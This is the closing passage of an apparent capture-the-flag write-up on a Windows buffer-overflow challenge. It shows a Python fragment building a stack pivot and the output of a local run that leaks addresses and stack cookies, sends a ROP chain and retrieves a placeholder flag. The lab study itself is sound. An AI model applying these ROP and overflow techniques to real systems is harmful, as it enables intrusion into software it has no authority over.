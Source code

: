 ```python
	struct.pack('<I', mov_esp_pop_ret) + # stack pivot
	b'b'*256
```

# Part 5. The Result
*** Note: this is what the output looks like on a local run, not the real target***
```bash
found: 0x20122e at 287
conn ret at: 287
conn sbp: 0x1af874
stack cookie: 0xcc2b5c69
listen ret at: 506
listen sbp: 0x1af8bc
stack cookie: 0x2016e7
listen stack size: 0x36c
connection handler stack base address: 0x1af508
buf_addr: 0x1af090
socket: 0x11c
_initterm_addr: 0x76566ca0
_ucrtbase addr: 0x76540000
sending ROP chain
sending overflow
b'Enter operation:\n    1) Read\n    2) Write\n'
[*] Switching to interactive mode
Enter operation:
    1) Read
    2) Write
Index: ACI{random_aci_flag_letters_go_here}\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
```

Success.  Running this will reliably dump the flag back to the socket.

# Conclusion

Don't be like me.  Make sure the stack is actually not executable before going down this path.  I wasted a lot of time (but learned a lot) making this solution.







